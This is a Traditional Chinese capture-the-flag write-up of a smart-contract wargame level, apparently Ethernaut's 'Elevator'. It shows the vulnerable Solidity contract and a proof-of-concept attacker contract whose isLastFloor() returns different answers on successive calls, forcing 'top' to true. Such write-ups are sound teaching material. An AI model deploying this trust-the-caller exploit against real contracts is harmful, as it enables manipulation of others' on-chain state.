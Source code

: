 #   Level 11 Elevator
實例地址：`0x75Eb5D3536c19c97540D04fdeAAcf20aaB3dFe46`

##  題目說明
這台電梯會讓你到不了頂樓對吧？

  可能會有用的資訊

*   有的時候 Solidity 不是很遵守承諾
*   我們預期這個 Elevator(電梯) 合約會被用在一個 Building(大樓) 合約裡

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

##  POC
該合約的 `goto()` 裡面的 Building 合約是透過 `msg.sender` 進行設定，我們可以自訂我們的 Building 合約進行攻擊，控制 `isLastFloor()` 達到 top 為 True。

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface Elevator {
    function goTo(uint256 _floor) external;
}

contract Building{
    Elevator public target;
    bool public top = false;
    
    constructor(address _target){
        target = Elevator(_target);
    }

    function attack() external{
        target.goTo(1);
    }

    function isLastFloor(uint256 _floor) external returns (bool){
        top = !top;
        return !top;
    }
}
```